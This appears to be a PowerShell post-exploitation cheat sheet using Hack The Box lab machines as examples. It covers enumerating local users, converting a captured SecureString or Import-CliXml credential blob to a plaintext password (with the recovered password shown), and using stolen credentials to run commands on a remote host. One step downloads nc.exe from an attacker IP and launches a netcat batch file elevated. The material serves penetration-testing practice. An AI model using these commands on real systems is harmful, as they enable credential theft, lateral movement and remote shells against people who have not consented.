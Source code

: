 ## Users

```bash
Get-LocalUser | ft Name,Enabled,Description,LastLogon
Get-ChildItem C:\Users -Force | select Name
```

## Secure String to Plaintext

```bash
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

Or directly parsing form XML:

```bash
$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## SUDO

```bash
#CREATE A CREDENTIAL OBJECT
$pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $pass)
#CHECK IF CREDENTIALS ARE WORKING EXECUTING whoami (expected: username of the credentials user)
Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
#DOWNLOAD nc.exe
Invoke-Command -Computer ARKHAM -ScriptBlock { IWR -uri 10.10.14.17/nc.exe -outfile nc.exe } -credential $cred

Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process C:\xyz\nc.bat -verb Runas}'

#Another method
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
```
